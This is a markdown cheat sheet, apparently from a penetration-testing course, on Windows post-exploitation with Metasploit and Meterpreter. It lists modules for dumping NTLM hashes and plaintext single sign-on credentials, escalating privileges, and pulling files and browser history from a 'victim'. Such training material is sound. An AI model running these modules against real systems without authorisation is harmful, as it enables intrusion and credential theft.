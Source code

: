 ### hacking Windows and exploiting `SMB` and `NetBIOS` vulnerabilities
# Key Commands

### Metasploit

#### Searching Metasploit Modules

Metasploit has an overwhelming amount of modules. Being able to search them quickly and efficiently will help you save time.

```bash
# Search for Windows Modules
msf > search Windows
```

```bash
# Search for modules to gather information from a Windows machine
msf > search post/windows/gather
```

Use Metasploit's custom version of `grep` to narrow things down

```bash
# Search for `smb` within the results of post/windows/gather
msf > grep 'smb' search post/windows/gather
```


#### Using a Module

Once you have a module you want to try, you need to load it into Metasploit with the `use` command.

```bash
# Load the hashdump module
msf > use post/windows/gather/hashdump
```

After you load a module, you'll want to take a look at it's options.

```bash
# View the options of the currently loaded module
msf post(windows/gather/hashdump) > options
```

If you would like to unload your current module, use `back`

```bash
msf post(windows/gather/hashdump) > back
```

<details>
  <summary>Expand for more general Metasploit commands</summary>
  <ul>
    <li><code>set</code>Set an option
    <li><code>run</code>Run a module
    <li><code>run -j</code>Run a module in the background
    <li><code>db_nmap</code>run an Nmap scan and save it in the metasploit database
    <li><code>hosts</code>View hosts recorded in the database
    <li><code>services</code>View services recorded in the database
    <li><code>creds</code>View credentials recorded in the database
    <li><code>sessions</code>View meterpreter sessions recorded in the database
  </ul>
</details>


### Meterpreter

Once you have a Meterpreter session going, there are a number of commands available for you to gather more info from the victim.

```bash
# Attach to meterpreter session 1
msf > sessions -i 1
```
```bash
# Get the user ID and username of the current user
meterpreter > getuid
```
```bash
# Get the networking information
meterpreter > ifconfig
```

<details>
  <summary>Expand for more Meterpreter commands</summary>
  <ul>
    <li><code>?</code> View a list of Meterpreter commands
    <li><code>getprivs</code> escalate your privileges on the victim system
    <li><code>background</code> exit the meterpreter shell and return to msf (the meterpreter session stays open in the background)
    <li><code>download</code> download a file from the victim
    <li><code>upload</code> Upload a file to the victim
    <li><code>ls</code> list the files in a directory
    <li><code>cd</code> change directory
  </ul>
</details>

### Useful Metasploit Modules
The following modules are used _after_ you first obtain a Meterpreter session on a target machine. They are quite useful during the pillaging stage.

- `post/windows/gather/enum_services`: Enumerate service information. This is important for adequately profiling the target machine, as well as identifying opportunities for exploiting unquoted service paths for **privilege escalation**.

- `post/windows/gather/enum_shares`: Enumerate file shares.

- `post/windows/gather/win_privs`: Prints information about the privileges you have on your target machine. This includes whether you are currently logged in as a user, administrator, or as SYSTEM; whether UAC (User Access Control) is enabled; and information about any special permissions enabled for your current user.

- `post/windows/gather/credentials/sso`: Dump single sign-on credentials, in plaintext. This module requires you to have administrator privileges on your victim machine. If you have that, this module will dump usernames and passwords that you can use to sign into and/or authorize a wide variety of Windows services.

<details>
  <summary>Expand for other useful modules</summary>
  <ul>
    <li><code>post/windows/gather/hashdump</code> Dumps any username and NTLM hashes from system memory and saves them in the Metasploit database.
    <li><code>post/windows/gather/enum_domains</code> Finds active directory domains
    <li><code>post/windows/gather/enum_shares</code> Finds SMB file shares
    <li><code>post/windows/gather/enum_logged_on_users</code> Finds all users that are logged on to the machine.
    <li><code>post/windows/gather/enum_services</code> Finds all services running on the target machine.
    <li><code>post/windows/gather/forensics/browser_history</code> Finds browser history on the target machine.
  </ul>
</details>
